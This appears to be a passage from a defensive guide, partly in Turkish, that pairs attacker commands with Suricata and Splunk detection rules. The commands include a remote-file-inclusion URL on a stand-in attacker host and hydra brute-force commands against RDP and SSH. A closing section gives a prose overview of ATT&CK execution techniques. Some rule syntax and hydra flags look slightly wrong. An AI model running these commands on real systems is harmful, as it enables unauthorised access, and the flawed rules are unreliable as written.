 ##### 2. **Remote File Inclusion (RFI)**

- **Attack Command:** `http://attacker.com/malicious-file.php`

- **Suricata Rule**

```suricata
alert http any any -> any 80 (msg:"Potential RFI detected"; content:"malicious-file.php"; http_uri; sid:100006; rev:1;)
```

#### **External Remote Services**

##### **RDP Brute Force**

- **Attack Command**
  
  ```plaintext
  hydra -t 1 -V -f -I administrator -P /path/to/passwordlist.txt rdp://targetIP
  ```

- **Splunk Rule**

  ```spl
  index-windows_security_logs EventCode=4625
  | stats count by src_ip, dest_ip
  | where count > threshold_value
  ```

##### **SSH Brute Force**

- **Attack Command**

  ```plaintext
  hydra -I root -P /path/to/passwordlist.txt ssh://targetIP
  ```

- **Suricata Rule**

  ```suricata
  alert tcp any any -> any 22 (msg:"Multiple SSH connection attempts"; flowto:next_rule;)
  ```

### **Execution**

MITRE ATT&CK Execution kategorisi, saldırganların hedef sistemde kötü amaçlı yazılımlarını çalıştırma ve işlemleri yürütme yollarını içerir. İşte bu tekniklerin kısaca açıklamaları:

1. **Command and Scripting Interpreter:** Saldırganların hedef sistemde komut satırı veya betik dili aracılığıyla komutlar çalıştırmasına izin verir. Örneğin, PowerShell veya bash kullanılabilir.

2. **Windows Management Instrumentation (WMI):** Windows işletim sistemlerinde kullanılan bir yönetim aracıdır. Saldırganlar, uzaktan komutlar çalıştırmak veya sistemde bilgi toplamak için WMI'yi kullanabilirler.

3. **Scheduled Task:** Zamanlanmış görevler, belirli bir zamanda veya belirli bir aralıkla çalışacak komutlar ayarlamak için kullanılır. Saldırganlar bu özellikten yararlanarak zararlı yazılımları arka planda çalıştırabilir.

4. **Service Execution:** Windows hizmetlerini (services) kullanarak kötü amaçlı yazılımların çalıştırılmasıdır. Hizmetler, sistem başlangıcında otomatik olarak çalıştırılabilir, bu da saldırganlara sürekli erişim sağlar.

